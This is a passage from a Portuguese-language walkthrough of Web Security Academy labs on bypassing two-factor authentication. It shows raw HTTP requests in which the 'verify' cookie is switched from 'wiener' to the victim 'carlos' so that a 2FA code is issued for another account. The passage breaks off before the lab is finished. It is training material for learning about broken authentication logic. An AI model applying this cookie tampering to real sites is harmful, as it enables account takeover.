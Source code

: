 Dessa forma, conseguimos acessar a página de perfil do usuário `carlos` sem passar pelo código de autenticação de dois fatores, Assim concluindo o laboratório.

![concluido](2fa_simple_concluido.png)

---

## **• 2FA broken logic.**

O objetivo desse laboratório é acessar a página de perfil do usuário `carlos` sem passar pelo código de autenticação de dois fatores.

Ao logar com as credenciais `wiener:peter` é possível ver que o usuário `wiener` possui um código de autenticação de dois fatores, que é enviado para o email.

porém ao analisar a requisição feita para pegar o código de autenticação de dois fatores, podemos ver que o cookie `verify` é enviado para o servidor.

```http

GET /login2 HTTP/1.1
Host: 0a6b009d04c77efcc09c86b000230007.web-security-academy.net
Cookie: session=FIKimDUx0gZAVm4ZJPbIr21DsfiGR6yd; verify=wiener
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

``` 

Esse parametro `verify` pode ser alterado para `carlos` fazendo com que seja gerado um código de autenticação de dois fatores temporário para o usuário `carlos`.

```http

GET /login2 HTTP/1.1
Host: 0a6b009d04c77efcc09c86b000230007.web-security-academy.net
Cookie: session=u6jfqJqycVGkV90CvgV9m0KHQAKL6t5J; verify=carlos
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a6b009d04c77efcc09c86b000230007.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```